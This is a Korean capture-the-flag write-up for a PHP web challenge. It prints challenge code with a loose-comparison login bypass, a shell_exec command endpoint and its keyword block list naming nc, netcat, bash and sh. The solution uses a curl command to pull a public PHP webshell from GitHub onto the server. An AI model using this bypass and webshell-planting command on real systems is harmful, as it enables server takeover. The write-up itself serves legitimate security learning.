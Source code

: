 # 키워드
- PHP Loose Comparison
- Curl - webshell

# 문제 코드
- index.php
```php
<?php
include ("./config.php");
include("./config/db_config.php");

$message = "";

if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }
        
    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");
            
    }
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Enter Username</title>
</head>
<body>
    <div class="container">
        <h2>Enter Username</h2>
        <form method="POST" action="index.php">
            <label for="username">Username:</label>
            <input type="text" id="username" name="username" required>
            <br>
            <input type="submit" value="Submit">
            <div class="message"><?php echo $message; ?></div>
        </form>
    </div>
</body>
</html>

```

- test.php
```php
<?php

include ("./config.php");

$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
else if($_SESSION["auth"]=== "guest") {

    $command = "echo hi guest";
    $result = shell_exec($command);

}

else {
    $result = "Authentication first";
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>Command Test</title>
</head>
<body>
    <h2>Command Test</h2>
    <?php
    echo "<pre>$result</pre>";
    ?>
</body>
</html>
```

- dockerfile
```dockerfile
FROM php:8.0-apache

RUN apt-get update && \
    apt-get upgrade -y && \
    apt-get install -y gcc curl netcat-traditional

RUN docker-php-ext-install mysqli

COPY ./deploy/src /var/www/html/

COPY ./flag.c /flag.c
RUN gcc /flag.c -o /flag && \
    chmod 111 /flag && \
    rm /flag.c

EXPOSE 80
```

# 분석
- username이 admin인지를 체크함 
- [공식문서](https://www.php.net/manual/en/control-structures.switch.php)를 확인해 보면 switch 문에서 느슨한 비교를 하는 것을 알 수 있음
- dockerfile을 보면 웹쉘을 을 올리는데 도움이 될만한 툴이 많이 설치되어 있음
- 그러나 대부분 $pattern에서 필터링하여 curl 정도만 사용할 수 있음


# 풀이
- swtich문에서 느슨한 비교를 한다는 점을 이용하여 username에 true를 넣어 우회를 할 수 있음
- 처음엔 리버스쉘을 올린다는 느낌으로 접근했는데 sh을 못써서 좀 빡셌음
- 빌드하고 권한을 보니 꽤 괜찮을 것 같아서 그냥 바인드쉘을 올림 

```
echo escapeshellcmd("curl https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./exploit.php");

curl https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php -o ./exploit.php
```

-docker-compose 파일에서 mysql관련 인증정보도 줘서 db까지 탈취할 수 있을 것 같지만 거기까지는 안함
